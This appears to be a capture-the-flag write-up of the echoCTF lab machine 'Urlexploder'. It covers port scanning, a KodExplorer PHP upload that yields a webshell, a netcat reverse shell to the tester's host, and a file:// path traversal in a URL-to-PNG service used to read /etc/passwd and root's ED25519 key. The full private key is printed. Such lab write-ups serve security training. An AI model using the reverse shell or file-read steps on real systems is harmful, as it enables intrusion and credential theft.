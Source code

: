 ```yaml
---
description: >-
  Urlexploder echoCTF Machine
title: Urlexploder (Intermediate)                # Add title here
date: 2025-01-24 08:00:00 -0600                           # Change the date to match completion date
categories: [echoCTF, Intermediate]                     # Change Templates to Writeup
tags: [KodExplorer RCE, Playwright]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Urlexploder.png                # Add infocard image here for post preview image
---
```

##### Host entries
```bash
10.0.160.235
```

### Content

- KodExplorer Dangerous File Upload leading to RCE
- Arbitrary File Read via Playwright's Screenshot Feature Exploiting File Wrapper

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
cat allPorts 
# Nmap 7.94SVN scan initiated Fri Jan 24 22:37:55 2025 as: nmap -p- -sS --open --min-rate 500 -Pn -n -vvvv -oG allPorts 10.0.160.235
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.0.160.235 ()   Status: Up
Host: 10.0.160.235 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///

```
Services and Versions running:
```bash
# Nmap 7.94SVN scan initiated Fri Jan 24 23:11:06 2025 as: nmap -p22,80 -sCV -n -Pn -vvvv -oN targeted 10.0.160.235
Nmap scan report for 10.0.160.235
Host is up, received user-set (0.17s latency).
Scanned at 2025-01-24 23:11:07 EST for 41s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   256 db:11:dd:7f:d8:dd:fe:0e:61:4c:3e:59:89:c6:e7:91 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFfdp13tqB/Uxu32MFZtasmeHOM0ueGElZo4lEkwRGqX93ECOMnYlO/Tam1LuihI0SA847wB36KoW6sV60NJ+VI=
|   256 54:5b:00:b8:34:d8:c0:a6:27:f7:e5:4d:c6:52:5c:40 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAID2/nUUxae+gYgRz9NWhGR5uY88FnnGbROgJiWaruAO8
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0
| http-cookie-flags: 
|   /: 
|     KOD_SESSION_ID_7da51: 
|_      httponly flag not set
|_http-favicon: Unknown favicon MD5: 8B93800E9876BD86C2C4280F05066EE0
|_http-server-header: nginx/1.18.0
| http-methods: 
|_  Supported Methods: GET
| http-title: KodExplorer - Powered by KodExplorer
|_Requested resource was ./index.php?user/login
|_http-generator: KodExplorer 4.49
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Exploitation

Only HTTP port tcp-80 is open, by exploring it we notice that there is a CMS called KodExplorer:
![](/assets/img/Pasted-image-20250124221442.png)

While investigating this CMS, we identify various exploits, but the most interesting one is under this [Github post](https://github.com/nu11secur1ty/CVE-nu11secur1ty/tree/main/vendors/kalcaddle/2023/KodExplorerKodExplorer-4.51.03) also the same post makes a reference to a [Youtube video](https://www.youtube.com/watch?v=stfT7BtulQ0&ab_channel=nu11secur1ty) that provides with a full PoC that we can follow to get a reverse shell, it is unnecessary to add the images of the guide since it is self-explanatory.

By following the steps, you should be able to upload a PHP file and select the option "Open in browser(B)" as shown in the image below:
![](/assets/img/Pasted-image-20250124222013.png)

In that way, we will have a webshell that we can use to get a revshell using netcat:

![](/assets/img/Pasted-image-20250124222120.png)

Using the clasic `nc -e /bin/bash 10.10.5.122 1234`:

![](/assets/img/Pasted-image-20250124222340.png)

### Privilege Escalation

Privilege Escalation for this one was a pain in the ass, we first started by searching interesting processes using `ps -aux` 

```bash
www-data@urlexploder:~/html/data/User/pwnedadmin/home/desktop$ ps -aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         137  0.0  0.5 11508908 48520 pts/0  Sl   16:02   0:00 node /opt/url-to-png-2.0.1/node_modules/.bin/../tsx/dist/cli.mjs --watch src/main.ts
root         138  0.0  0.5 1022592 46556 pts/0   Sl   16:02   0:00 node /opt/url-to-png-2.0.1/node_modules/.bin/../pino-pretty/bin.js
root         165  0.0  0.5 989580 46336 pts/0    Sl   16:02   0:00 /usr/bin/node --require /opt/url-to-png-2.0.1/node_modules/.pnpm/tsx@4.11.0/node_modules/t
root         171  0.4  1.2 64713368 98888 pts/0  Sl   16:02   0:01 /usr/bin/node --require /opt/url-to-png-2.0.1/node_modules/.pnpm/tsx@4.11.0/node_modules/t
root         183  0.0  0.1 721568 13064 pts/0    Sl   16:02   0:00 /opt/url-to-png-2.0.1/node_modules/.pnpm/@esbuild+linux-x64@0.20.2/node_modules/@esbuild/l
root         316  0.0  1.1 34047236 89736 ?      Ssl  16:02   0:00 /root/.cache/ms-playwright/chromium-1117/chrome-linux/chrome --disable-field-trial-config 
root         317  0.0  1.0 34055452 88400 ?      Ssl  16:02   0:00 /root/.cache/ms-playwright/chromium-1117/chrome-linux/chrome --disable-field-trial-config 
root         320  0.0  0.7 33875100 58836 ?      S    16:02   0:00 /root/.cache/ms-playwright/chromium-1117/chrome-linux/chrome --type=zygote --no-zygote-san
root         321  0.0  0.7 33875100 58792 ?      S    16:02   0:00 /root/.cache/ms-playwright/chromium-1117/chrome-linux/chrome --type=zygote --no-zygote-san
root         322  0.0  0.7 33875088 59084 ?      S    16:02   0:00 /root/.cache/ms-playwright/chromium-1117/chrome-linux/chrome --type=zygote --no-sandbox --
root         323  0.0  0.7 33875088 59048 ?      S    16:02   0:00 /root/.cache/ms-playwright/chromium-1117/chrome-linux/chrome --type=zygote --no-sandbox --
root         355  0.0  0.6 33970392 49320 ?      Sl   16:02   0:00 /root/.cache/ms-playwright/chromium-1117/chrome-linux/chrome --type=gpu-process --no-sandb
root         356  0.0  0.9 33924688 75712 ?      Sl   16:02   0:00 /root/.cache/ms-playwright/chromium-1117/chrome-linux/chrome --type=utility --utility-sub-
root         370  0.0  0.6 33970392 49328 ?      Sl   16:02   0:00 /root/.cache/ms-playwright/chromium-1117/chrome-linux/chrome --type=gpu-process --no-sandb
root         378  0.0  0.9 33924688 75440 ?      Sl   16:02   0:00 /root/.cache/ms-playwright/chromium-1117/chrome-linux/chrome --type=utility --utility-sub-
```

Some interesting processes are shown, specially one that is called ms-playwright and a process is also being called from the `/opt` directory called url-to-png-2.0.1, those two are interesting to check.

In second place we search for interesting files, inside `/tmp` directory with the following content:

![](/assets/img/Pasted-image-20250125002042.png)

As shown on permissions only the `tsx-0` directory is accesible, inside of it there are some unknown files:
![](/assets/img/Pasted-image-20250125002205.png)

All the files in here includes a path that is a process running in the previous `ps -aux` command, which makes this url to png 2.0.1 more interesting:
![](/assets/img/Pasted-image-20250126101131.png)

Looking for vulnerabilities for this binary, there is one that looks pretty interesting:

![](/assets/img/Pasted-image-20250126212527.png)

Basically, the PoC is a Path Traversal that allows a user to read files using a `file://` scheme:

![](/assets/img/Pasted-image-20250126212731.png)

Now, while trying with the initial webpage we discover that is not working for it, so we investigate other open services on the machine:

```bash
www-data@urlexploder:/tmp$ ss -tuln 
Netid    State     Recv-Q    Send-Q   Local Address:Port
udp      UNCONN    0         0        127.0.0.11:51087  
tcp      LISTEN    0         128      0.0.0.0:22        
tcp      LISTEN    0         511      0.0.0.0:80        
tcp      LISTEN    0         511      127.0.0.1:3089    
tcp      LISTEN    0         4096     127.0.0.11:38077  
tcp      LISTEN    0         128      [::]:22           

```

The port 3089 is not a common open port so I sent an HTTP request to see if the server is web or not:
```bash
www-data@urlexploder:/tmp$ curl -s http://127.0.0.1:3089/
{"message":"Invalid query parameters"}
```

And surprisingly enough, it is, now using the PoC we can see that there is a file being downloaded, at first glance it looks like the `/etc/passwd` is downloaded, but looking the content of the file it seems like a PNG image:

![](/assets/img/Pasted-image-20250126213445.png)

To check the images better I decided to go and do a Port Forwarding using [Chisel](https://shuciran.github.io/posts/Chisel/) so I can see this images from my own browser and the result was the content of `/etc/passwd` on the image:

![](/assets/img/Pasted-image-20250126213828.png)

So we decide to grab the id_rsa directly from the /root directory, but there is an error if the file is not found:

![](/assets/img/Pasted-image-20250126214037.png)

In this cases, there are other types of private keys such as the id_rsa, some of them are created using Eliptyc Curves or other algorithms instead and some examples are as follows:

```text
id_rsa
id_ecdsa
id_ed25519
id_dsa
```

If there is a private key then we should check for the `authorized_keys`, which is a file that provides more info about it:

![](/assets/img/Pasted-image-20250126214833.png)

And as suspected, the algorithm used is ED25519 which is the abbreviature for Algorithm: EdDSA (Edwards-Curve Digital Signature Algorithm) using Curve25519, searching for this kind of algorithm provides details about the type of public key and private key and common name generated while creating them:

![](/assets/img/Pasted-image-20250126215856.png)

Looking up for this file using the Path Traversal vulnerability, throws the private key:

![](/assets/img/Pasted-image-20250126220022.png)

Now the interesting part was to extract the text from this one (I made a lot of mistakes while trying) I used Snagit to save me time, but here I got you:

```bash
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACBFmNuELVMDeb/xQStnwEkL0RjFD9msBy9Bi6Z4xztsPwAAAIjPmzllz5s5
ZQAAAAtzc2gtZWQyNTUxOQAAACBFmNuELVMDeb/xQStnwEkL0RjFD9msBy9Bi6Z4xztsPw
AAAEDDObDOfFBe45Bc8LenwEN1IUmI9KJrqk0E8Xyj7ZrW4UWY24QtUwN5v/FBK2fASQvR
GMUP2awHL0GLpnjHO2w/AAAAAAECAwQF
-----END OPENSSH PRIVATE KEY-----
```

Finally, we have root shell:

![](/assets/img/Pasted-image-20250126220430.png)

### Post Exploitation

Flags are stored at:

`/etc/passwd`
`/etc/shadow`
`environment variables (env command)`
`/root`


### Credentials

id_ed25519

### Notes

-  Always look for other type of private keys such as `id_ed25519`, `id_dsa`, `id_ecdsa` and so on if you can't find the classic `id_rsa`.

### References

- [KodExplorer RCE Video](https://www.youtube.com/watch?v=stfT7BtulQ0&ab_channel=nu11secur1ty)
- [Chisel Configuration](https://shuciran.github.io/posts/Chisel/)
